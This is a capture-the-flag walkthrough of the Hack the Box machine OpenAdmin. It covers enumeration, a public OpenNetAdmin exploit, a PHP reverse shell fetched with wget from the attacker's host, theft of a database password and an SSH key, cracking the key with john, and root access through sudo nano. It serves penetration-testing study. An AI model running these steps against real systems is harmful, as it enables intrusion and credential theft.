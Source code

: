
# Work in progress

![OpenAdmin](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/openadmin.jpg)


## Enumeration
\
Start off with a detailed nmap scan:

![nmap](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/nmap.png)
\

Next lets navigate to the webserver in our browser to verify that this in fact the apache default page:

```
http://10.10.10.171/
```
![webserver]
\
As expexted we get the apache default page.  Let's enumerate futher using gobuster:
```
gobuster -w /usr/share/wordlists/dirb/common.txt -t 30 -k -x html,php,txt,asp,aspx -u http://10.10.10.171
```
![gobuster](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/gobuster.png)
\  
Let's look at the music page:

Music:

![music](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/music.png)

I clicked 'login' and it sent me to this page http://10.10.10.171/ona/:

![ona](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/ona.png)

Looks like the web appliaction that is running is out of date.  Now click the "ONA" and "About":

![about](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/ona_about.png)


Lets see if there are any vulnerabilities for OpenNetAdmin (ONA):

![searchsploit](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/searchsploit.png)

## Initial Foothold

After looking at the proof of concept found in exploitdb, we just need to edit the URL to point to the ONA web application:

![poc](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/poc.png)

Execute the bash script with the changes and we get a limited shell on the machine:

![shell](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/shell.png)

We are dropped in the /opt/www/ona directory, which is the root for ONA

## Pivoting to User 1

We cannot spawn a tty shell from here, so lets see if we can upload and execute a php-reverse-shell using the following commands:

```
# on our attacking machine
python -m SimpleHTTPServer

# on the target
wget http://10.10.14.152:8000/php-reverse-shell.php

# on either machine, ensure that you have a netcat listener before executing this
curl http://10.10.10.171/ona/php-reverse-shell.php
```

![phpshell](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/phpshell.png)

I tried to access the user.txt file in the home directories of both users but was denied:

![userdeny](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/userdeny.png)

After looking through the /var/www/ona directory (linked to /opt/ona/www), I found a database configuration file with a password:

![dbfile](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/dbfile.png)

Lets try to ssh with the credentials jimmy:n1nj4W4rri0R!:

![jimmy_shell](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/jimmyshell.png)

## Pivoting to User 2

Success!  But there is no user.txt file in jimmy's home directory:

![jimmyhome](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/jimmyhome.png)

Jimmy cannot sudo on this device or access joanna's home directory.  Looking through the webroot /var/www I found an interesting directory called internal:

![internal](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/internal.png)

Let's look at main.php:

![main](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/main.png)

So if we connect to this webserver, we should receive the private key (id_rsa) for joanna which we can then use to login.  Lets see if the we are listening on port 80:

![netstat](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/netstat.png)

The target is not listening on port 80, but is listening on port 52846, so lets try to connect to that to retrieve the private key:

```
curl http://127.0.0.1:52846/main.php
```
![rsa](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/rsa.png)

We got the private key, but the message from main.php indicates that this private key is password protected, so we will need to use ssh2john (link) and john to crack the password:

Generate a crackable hash with ssh2john:

```
python /usr/share/john/ssh2john.py id_rsa > crack.txt
```
Now crack it with john:
```
john --wordlist=/usr/share/wordlists/rockyou.txt crack.txt
```
![john](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/john.png)

The password for id_rsa is bloodninjas, which goes along with the hint of "ninja" password we saw in the id_rsa.  Now lets try to login as joanna using the private key:

![joanna_shell](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/joannashell.png)

## User File 

![userfile](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/userfile.png)

## Privilege Escalation

Start by checking if joanna is allowed to run any commands with sudo:

![sudol](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/sudol.png)

Looks like we can open the file priv using nano with root privilieges:
```
Sudo /bin/nano /opt/priv 
```
There is a native ability in nano to read (CTRL+R) any file in the file system that you specify.  Lets try to read the root.txt file:

![nanoroot](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/nanoroot.png)

## Root File 

![rootfile](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/rootfile.png)
